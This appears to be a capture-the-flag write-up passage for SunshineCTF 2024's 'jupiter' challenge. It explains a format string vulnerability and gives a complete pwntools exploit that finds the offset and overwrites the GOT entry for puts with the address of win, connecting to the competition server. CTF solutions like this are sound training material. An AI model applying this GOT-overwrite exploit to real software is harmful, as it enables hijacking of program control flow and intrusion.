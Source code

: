 We can use the format string vulnerability to write the address of GOT puts to the address of win so when puts is called at the end of `main()` it will run `win()` instead. We can also use pwntools `fmtstr_payload` to make this easier.

Final exploit:
```py
from pwn import *

context.log_level = "critical"
elf = context.binary = ELF('./jupiter')

p = remote('2024.sunshinectf.games', 24609)

def exec_fmt(payload):
    p = remote('2024.sunshinectf.games', 24609)
    p.sendline(b'0xdeadc0de')
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {elf.got.puts: elf.sym['win']})

p.sendline(b'0xdeadc0de')
p.sendline(payload)

p.interactive()
```
